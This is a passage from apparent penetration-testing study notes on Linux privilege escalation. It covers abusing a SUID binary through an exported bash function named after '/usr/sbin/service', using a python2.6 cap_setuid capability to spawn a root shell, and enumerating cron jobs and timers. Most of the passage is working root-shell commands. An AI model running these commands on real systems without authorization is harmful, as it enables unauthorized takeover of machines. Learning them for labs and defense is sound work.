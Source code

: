 
 - Now let's say that the `strings` command give us the following:
```text
/lib64/ld-linux-x86-64.so.2
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
/usr/sbin/service apache2 start
```

 - We can't do what we did before because the full path is there.
 - What we can do is create a malicious function and export it to an env variable:
```bash
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p;}
export -f /usr/sbin/service
```
 - We now run the affected binary and we are root.


### Capabilities
 - We can use the following command to search for capabilities:
```bash
getcap -r / 2>/dev/null
```
 - We get the following line as output:
```text
/usr/bin/python2.6 = cap_setuid+ep
```

 - The `+ep` is the important part, this essentially means `everything permitted`.
 - Because of this, `python2.6` will be run as root.
 - To exploit this we just need some code to get a shell:
```bash
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

 - Now we are root.


### Scheduled Tasks
 - We can have a look at what tasks are scheduled, when they will run, what command, & what user they will run as.
```bash
cat /etc/crontab
systemctl list-timers --all
```
